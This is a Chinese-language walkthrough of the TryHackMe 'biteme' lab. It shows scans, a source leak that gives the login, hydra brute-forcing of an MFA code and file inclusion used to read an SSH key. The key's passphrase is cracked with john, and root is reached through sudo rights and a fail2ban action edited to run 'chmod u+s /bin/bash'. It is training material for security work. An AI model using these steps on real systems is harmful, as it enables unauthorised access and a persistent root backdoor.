 ```yaml
---
sidebar_position: 115
tags: [Easy, Linux, 信息泄露, 利用服务, 文件包含, SUDO]
title: "biteme"
description: "biteme"
sidebar_label: "biteme"
slug: /tryhackme/115
---
```


# biteme

## 端口扫描

```bash
root@ip-10-10-4-132:~/biteme# nmap -sTCV -p 22,80 --min-rate 1000 10.10.158.198

Starting Nmap 7.60 ( https://nmap.org ) at 2023-09-25 04:07 BST
Nmap scan report for ip-10-10-158-198.eu-west-1.compute.internal (10.10.158.198)
Host is up (0.00016s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 89:ec:67:1a:85:87:c6:f6:64:ad:a7:d1:9e:3a:11:94 (RSA)
|   256 7f:6b:3c:f8:21:50:d9:8b:52:04:34:a5:4d:03:3a:26 (ECDSA)
|_  256 c4:5b:e5:26:94:06:ee:76:21:75:27:bc:cd:ba:af:cc (EdDSA)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
MAC Address: 02:BA:C7:51:A5:C9 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.88 seconds

```

## 80

进行目录扫描

```bash
root@ip-10-10-4-132:~/biteme# gobuster dir -u http://10.10.158.198/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,txt,html
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.158.198/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php,txt,html
[+] Timeout:        10s
===============================================================
2023/09/25 04:08:11 Starting gobuster
===============================================================
/index.html (Status: 200)
/console (Status: 301)
/server-status (Status: 403)
===============================================================
2023/09/25 04:10:17 Finished
===============================================================
root@ip-10-10-4-132:~/biteme# gobuster dir -u http://10.10.158.198/console/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,txt,html
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.158.198/console/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php,txt,html
[+] Timeout:        10s
===============================================================
2023/09/25 04:15:36 Starting gobuster
===============================================================
/index.php (Status: 200)
/css (Status: 301)
/config.php (Status: 200)
/robots.txt (Status: 200)
/dashboard.php (Status: 302)
/functions.php (Status: 200)
/mfa.php (Status: 302)
===============================================================
2023/09/25 04:22:46 Finished
===============================================================
```

从上面的搜索结果中我确定了攻击点位于 console 中, 我们在此需要进行登陆, 经过查看其源代码我意识到其可能是一个开源的系统,但是很可惜没有可以利用的方式接着查找一段时间后我看了提示 .phps , 据此我可以获取到一个源代码

![Untitled](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240709-134022.png)

我查看了其中的  functions.php dashboard.php config.php 的文件后得出结论:

- 用户名是在 config.php 中的 LOGIN_USER 的十六进制解码值
- 密码则是一个 MD5 加密后后缀为 001 的内容所以我查找了相关内容后得到一个符合的密码 : violet

使用我们得到的内容进行登陆之后, 发现是一个验证码校验页面因此我们需要进行暴力破解

![Untitled](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240709-134022-1.png)

```bash
root@ip-10-10-27-245:~/biteme# hydra -l jason_test_account -P ./numbers 10.10.158.198  http-post-form "/console/mfa.php:code=^PASS^:F=Incorrect code:H=Cookie: PHPSESSID=f9oudjtag8eb774i37ui7o55o7; user=jason_test_account; pwd=violet"
Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2023-09-25 06:11:49
[DATA] max 16 tasks per 1 server, overall 16 tasks, 9999 login tries (l:1/p:9999), ~625 tries per task
[DATA] attacking http-post-form://10.10.158.198:80//console/mfa.php:code=^PASS^:F=Incorrect code:H=Cookie: PHPSESSID=f9oudjtag8eb774i37ui7o55o7; user=jason_test_account; pwd=violet
[STATUS] 1331.00 tries/min, 1331 tries in 00:01h, 8668 to do in 00:07h, 16 active
[80][http-post-form] host: 10.10.158.198   login: jason_test_account   password: 2361
1 of 1 target successfully completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra) finished at 2023-09-25 06:13:36
```

成功访问之后我们跳转dashboard.php 页面进行操作我发现这里存在文件包含漏洞,所以我尝试使用此读取了用户的 SSH 私钥发现可以获取到

![Untitled](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240709-134022-2.png)

获取到用户的 SSH 私钥进行连接发现需要密码因此进行解密

```bash
root@ip-10-10-27-245:~/biteme# john hash.txt --wordlist=`locate rockyou.txt`
Note: This format may emit false positives, so it will keep trying even after finding a
possible candidate.
Warning: detected hash type "SSH", but the string is also recognized as "ssh-opencl"
Use the "--format=ssh-opencl" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
1a2b3c4d         (id_rsa)
1g 0:00:00:20 DONE (2023-09-25 06:16) 0.04866g/s 697892p/s 697892c/s 697892C/s *7¡Vamos!
Session completed.
```

## 后渗透

### jason

使用得到的密码进行登陆

```bash
root@ip-10-10-27-245:~/biteme# ssh -i id_rsa jason@10.10.158.198
Enter passphrase for key 'id_rsa': 
Last login: Fri Mar  4 18:22:12 2022 from 10.0.2.2
jason@biteme:~$ id
uid=1000(jason) gid=1000(jason) groups=1000(jason),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev)jason
```

### jason —> fred

我发现用户 jason 存在 fred 的 SUDO 特权命令因此我们可以借此来获取 fred 的 Shell

```bash
jason@biteme:~$ sudo -l
Matching Defaults entries for jason on biteme:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jason may run the following commands on biteme:
    (ALL : ALL) ALL
    (fred) NOPASSWD: ALL
jason@biteme:~$ sudo -u fred /bin/bash -p
fred@biteme:~$ id
uid=1001(fred) gid=1001(fred) groups=1001(fred)
```

### fred —> root

我发现用户 fred 也存在一个 SUDO 特权

```bash
fred@biteme:/home/fred$ sudo -l
Matching Defaults entries for fred on biteme:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User fred may run the following commands on biteme:
    (root) NOPASSWD: /bin/systemctl restart fail2ban
```

经过查找我发现了其利用方式[Privilege Escalation with fail2ban nopasswd](https://systemweakness.com/privilege-escalation-with-fail2ban-nopasswd-d3a6ee69db49) 按照文章指示我修改了配置文件的内容以及生效的条件

```bash
fred@biteme:/home/fred$ find /etc -writable -ls 2>/dev/null
   156253      4 drwxrwxrwx   2 root     root         4096 Nov 13  2021 /etc/fail2ban/action.d
   142010      4 -rw-r--r--   1 fred     root         1420 Nov 13  2021 /etc/fail2ban/action.d/iptables-multiport.conf
fred@biteme:/home/fred$ vim /etc/fail2ban/action.d/iptables-multiport.conf
	# Option:  actionban
	# Notes.:  command executed when banning an IP. Take care that the
	#          command is executed with Fail2Ban user rights.
	# Tags:    See jail.conf(5) man page
	# Values:  CMD
	#
	actionban = /bin/bash -c 'chmod u+s /bin/bash'
fred@biteme:/home/fred$ cat /etc/fail2ban/jail.conf
```

因此使用 hydra 进行暴力攻击之后我就得到了一个 root 权限

```bash
fred@biteme:/home/fred$ ls -al /bin/bash
-rwxr-xr-x 1 root root 1113504 Jun  6  2019 /bin/bash
fred@biteme:/home/fred$ ls -al /bin/bash
-rwsr-xr-x 1 root root 1113504 Jun  6  2019 /bin/bash
```
